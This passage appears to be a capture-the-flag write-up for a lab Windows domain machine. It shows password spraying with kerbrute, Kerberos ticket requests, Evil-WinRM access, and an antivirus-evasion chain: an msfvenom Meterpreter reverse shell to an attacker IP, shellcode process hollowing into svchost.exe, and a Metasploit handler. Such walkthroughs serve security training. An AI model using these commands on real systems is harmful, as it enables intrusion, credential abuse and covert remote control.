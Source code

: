 ![](https://cdn-images-1.medium.com/max/1000/1*cbl82kgR7Xs58u7eJC5EIA.png)

Spraying the obtained password on the list of valid users we have
```bash
kerbrute_linux_amd64 passwordspray --dc 10.10.11.45 -d vintage.htb users.list  Zer0the0ne 
```
![](https://cdn-images-1.medium.com/max/1000/1*W4mCIO9zTcf4RXk9R7hp7A.png)
We Found a valid user from spraying

## Privilege Escalation
We have User `C.Neri` credentials, Start by requesting a TGT for this user

![](https://cdn-images-1.medium.com/max/1000/1*p7zbARapG7CSW1nfxJtIow.png)

`C.Neri` is member of the `REMOTE MANAGEMENT USERS` group so we can try use Evil-WinRM to access it

1. First request a ticket
    ```bash
    getTGT.py vintage.htb/C.Neri:Zer0the0ne 
    export KRB5CCNAME=C.Neri.ccache    
    ```

2. Then use `Evil-WinRM` for access

    ```bash
    evil-winrm -i dc01.vintage.htb -r vintage.htb
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*OyAyR7ePiaSeV6PU5Mxnxw.png)

You could keep using Evil-WinRM, but it isn’t stable on this machine, especially for heavy enumeration and the presence of antivirus. You might need to switch to another shell or use Meterpreter.

![](https://cdn-images-1.medium.com/max/1000/1*OIf5TgWhAAFKy009pQGXRA.png)

Using [DynWin32-ShellcodeProcessHollowing.ps1](https://gist.githubusercontent.com/qtc-de/1ecc57264c8270f869614ddd12f2f276/raw/c5810a377af12b21629f25cd60b2e9c42713b8e8/DynWin32-ShellcodeProcessHollowing.ps1), This script performs shellcode-based process hollowing by injecting shellcode into a trusted process (svchost.exe) using dynamic Win32 API lookups. This technique bypasses antivirus detection while ensuring stealth and execution stability.

1. Generate the shell code using `msfvenom`
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.75 LPORT=4444 -f psh
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*jEQ_eneMM-kNVLTHbj_ajg.png)
    We just need the shellcode itself: 0xfc,0x48,..,0xff,0xd5

2. Adjusting the powershell shellcode

    Download this script [DynWin32-ShellcodeProcessHollowing.ps1](https://gist.githubusercontent.com/qtc-de/1ecc57264c8270f869614ddd12f2f276/raw/c5810a377af12b21629f25cd60b2e9c42713b8e8/DynWin32-ShellcodeProcessHollowing.ps1) and place the generated shellcode from the previous step into the $SHELLCODE byte array.
    ![](https://cdn-images-1.medium.com/max/750/1*aWsy8eCJiKcTP7OKQ8HJ6g.png)
    ![](https://cdn-images-1.medium.com/max/1000/1*ghGXK3KpKzdXQDXhx-c9TA.png)
3. Start the Python server
    ```bash
    sudo python3 -m http.server 80
    ```
4. Start Metasploit C2 server
    ```bash
    msfconsole -x "use exploits/multi/handler; set lhost 10.10.16.75; set lport 4444; set payload windows/x64/meterpreter/reverse_tcp; exploit"
    ```
